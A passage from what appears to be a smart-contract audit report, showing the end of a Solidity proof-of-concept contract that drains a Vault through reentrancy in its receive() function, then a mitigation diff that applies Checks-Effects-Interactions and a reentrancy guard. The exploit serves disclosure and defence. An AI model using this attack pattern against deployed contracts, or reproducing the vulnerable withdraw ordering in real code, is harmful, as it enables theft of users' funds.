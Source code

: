```
    uint256 public attackCount = 0;

    constructor(address _vault) {
        vault = Vault(_vault);
    }
    
    function attack() external payable {
        vault.deposit{value: msg.value}();
        vault.withdraw();
    }

    receive() external payable {
        if (address(vault).balance > 0 && attackCount < 5) {
            attackCount++;
            vault.withdraw();
        }
    }
}
```

#### Recommended Mitigation

Adopt the Checks-Effects-Interactions pattern correctly by updating the user's balance *before* the external call, or use a reentrancy guard.

```diff
// src/Vault.sol
- // Vulnerable Code
- function withdraw() external {
-   uint256 amount = balances[msg.sender];
-   require(amount > 0, "No balance");
-   (bool success, ) = msg.sender.call{value: amount}("");
-   require(success, "Transfer failed");
-   balances[msg.sender] = 0;
- }

+ // Corrected Code
+ import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
+ contract Vault is ReentrancyGuard {
+   function withdraw() external nonReentrant {
+     uint256 amount = balances[msg.sender];
+     require(amount > 0, "No balance");
+     balances[msg.sender] = 0; // Effect before interaction
+     (bool success, ) = msg.sender.call{value: amount}("");
+     require(success, "Transfer failed");
+   }
+ }
```

---

## Medium Risk Findings
